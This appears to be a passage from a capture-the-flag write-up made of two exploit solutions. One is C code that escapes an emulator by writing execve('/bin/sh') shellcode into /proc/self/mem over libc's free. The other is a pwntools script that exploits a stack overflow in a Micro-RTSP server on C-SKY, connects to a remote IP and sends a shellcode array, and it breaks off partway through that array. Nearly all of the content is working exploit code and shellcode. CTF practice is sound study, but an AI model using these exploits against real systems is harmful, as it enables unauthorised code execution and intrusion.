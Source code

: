 ```c 
        char buf[30000];
        fd  = ql_open("/proc/self/maps",O_RDONLY);
        memset(buf,0,sizeof(buf));
        read(fd,buf,12);

        off = strtol(buf, (char*)buf+12, 16);
        printf("python offset = %lx\n",off);
        read(fd,&buf[12],40960);
        puts(buf);
        close(fd);

        fd = ql_open("/proc/self/mem",O_RDWR);
        ret = lseek(fd, off+0x3FF8,SEEK_SET);
        printf("seek set ret = %lx\n",ret);
        unsigned long cxaf_addr = 0;
        read(fd,&cxaf_addr,8);
        printf("__cxa_finalize = %lx\n",cxaf_addr);


        unsigned long libc_addr = cxaf_addr - 0x3ea00 ;
        unsigned long free_addr = libc_addr + 0x8a720;

        printf("__libc_addr = %lx\n",libc_addr);

        ret = lseek(fd, free_addr,SEEK_SET);
        printf("seek set ret = %lx\n",ret);

        char shellcode[] = {'j','h','H','\xb8','/','b','i','n','/','/','/','s','P','H','\x89','\xe7','h','r','i','\x01','\x01','\x81','4','$','\x01','\x01','\x01','\x01','1','\xf6','V','j','\x08','^','H','\x01','\xe6','V','H','\x89','\xe6','1','\xd2','j',';','X','\x0f','\x05'};
        write(fd,shellcode,strlen(shellcode));
        close(fd);

}
```

### The Rise of Sky

Strange arch(c-sky) pwn.
Stack overlow at https://github.com/geeksville/Micro-RTSP/blob/master/src/CRtspSession.cpp#L65 No PIE, No NX, ret to data

```python
from pwn import *

debug = 0
context.log_level = 'debug'
# 0x000093fc 0x9270 0x9294
base = 0x13f510
if debug:
    p = remote('192.168.101.23', 8554)
else:
    p = remote('47.242.246.203', 32042)
#    p.sendlineafter(':', 'jFtAt3QdTzm8W1qjMz+Oaw==')

sc = [
    0x23, 0x14, 0x0E, 0xDD, 0x00, 0x20, 0xEE, 0xDD, 0x01, 0x20, 0x82, 0xB8, 0x3B, 0x6E, 0x25, 0x16,
    0x68, 0xE4, 0x13, 0x10, 0x2F, 0x32, 0x40, 0xA3, 0x68, 0xE4, 0x13, 0x10, 0x66, 0x32, 0x41, 0xA3,
    0x68, 0xE4, 0x13, 0x10, 0x6C, 0x32, 0x42, 0xA3, 0x68, 0xE4, 0x13, 0x10, 0x61, 0x32, 0x43, 0xA3,
    0x68, 0xE4, 0x13, 0x10, 0x67, 0x32, 0x44, 0xA3, 0x68, 0xE4, 0x13, 0x10, 0x00, 0x32, 0x45, 0xA3,
    0x88, 0xE4, 0x03, 0x10, 0x68, 0xE4, 0x13, 0x10, 0x00, 0x30, 0x4F, 0x6C, 0x63, 0x28, 0x38, 0x37,
    0x00, 0xC0, 0x20, 0x20, 0x00, 0x40, 0x00, 0xB4, 0x28, 0xE4, 0x13, 0x11, 0x68, 0xE4, 0x03, 0x10,
    0x02, 0xEA, 0x00, 0x01, 0x00, 0x93, 0x3F, 0x37, 0x00, 0xC0, 0x20, 0x20, 0x00, 0x40, 0x68, 0xE4,
    0x13, 0x11, 0x02, 0xEA, 0x00, 0x10, 0x4F, 0x6C, 0x04, 0x30, 0x40, 0x37, 0x00, 0xC0, 0x20, 0x20,
```